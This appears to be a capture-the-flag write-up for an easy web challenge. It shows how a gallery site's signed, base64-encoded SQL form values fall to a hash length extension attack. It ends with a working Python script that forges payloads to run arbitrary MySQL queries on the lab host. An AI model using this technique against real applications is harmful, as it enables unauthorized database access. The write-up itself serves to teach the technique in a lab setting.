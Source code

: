 # Writeup

> Name : Leo's Gallery
> 
> Category : web
> 
> Difficulty : easy
> 
> Description : I love this website ! It allows me to store all my wallpapers online, so cool !
>
> URL : `http://<host>:11337/`
> 

## English

We arrive on a wallpaper gallery website. We can observe 2 things :

- An upload part (it's just bait)
- A Gallery tab, that allows us to browse through the different galleries. 

When reviewing the source code, we see the values present in the form : 
```html
<form method="post">
    <select name="images">
        <option value="|8fc8cee62b7d63c442c0d331346c3ec9"></option>
        <option value="U0VMRUNUICogRlJPTSBsYW5kc2NhcGVzV2FsbHBhcGVyczs=|fadf91bd99bf7474edd040d6aaf3ed06">Landscapes</option>
        <option value="U0VMRUNUICogRlJPTSBhbmltYWxzV2FsbHBhcGVyczs=|2703d13c178ef89d4e614490b6b08c92">Animals</option>
        <option value="U0VMRUNUICogRlJPTSBhYnN0cmFjdFdhbGxwYXBlcnM7|59e6374a0cb4ed5401cd73a0e25cd804">Abstract</option>
        <option value="U0VMRUNUICogRlJPTSB1c2VyV2FsbHBhcGVyczs=|b480e2d69cb41122048c3be17a7adee0">Your wallpapers</option>
    </select>
    <input type="submit" value="Show Me !">
</form>
```

Each value looks something like that :
`U0VMRUNUICogRlJPTSBsYW5kc2NhcGVzV2FsbHBhcGVyczs=|fadf91bd99bf7474edd040d6aaf3ed06`

The first part is base64, the other one is md5 salt (which means that it is the md5 of a salt + a string).

The decoded base64 is : `SELECT * FROM landscapesWallpapers;`

It is used to tell the server which gallery to chose.

The md5 is the md5 of a salt concatenated with the base64. 

Hence values have this format : 
`base64(SQLrequest)|md5(salt+base64(SQLrequest))`

The first value only has md5, and no base64. This means that it's value is :`|md5(salt)`

Thus, we have the md5 of the salt alone. This algorithm is vulnerable to an attack called "hash length extension". This means that if we have md5(salt), we can get md5(salt+user_data).

To perform this attack, we can use several tools like HashPump or hash extender. Note that HashPump has a bug that makes it unusable for this challenge. Nevertheless, I forked the project and fixed the bug. It is present on my github if you wanna use this version, otherwise just use hash extender.

All that's needed is to tell the tool the length of the secret (aka the salt), which the player doesn't know. It just needs a bit of bruteforce to get the right one, as long as you have a valid SQL request (`SELECT 1;` is enough).

After a bit of bruteforce you get that the length is 26 and can then proceed with the challenge.

Here is a python code to execute any mysql request through this attack :
```python
import requests
import hashpumpy
import warnings
import base64

warnings.filterwarnings("ignore", category=DeprecationWarning)
url = "http://localhost:113377/gallery.php"
b64_req = base64.b64encode(b"select 1;")

hash,payload = hashpumpy.hashpump("8fc8cee62b7d63c442c0d331346c3ec9",'',b64_req,26)
r = requests.post(url,data={"images":payload+b"|"+hash.encode()})
print(r.text)
```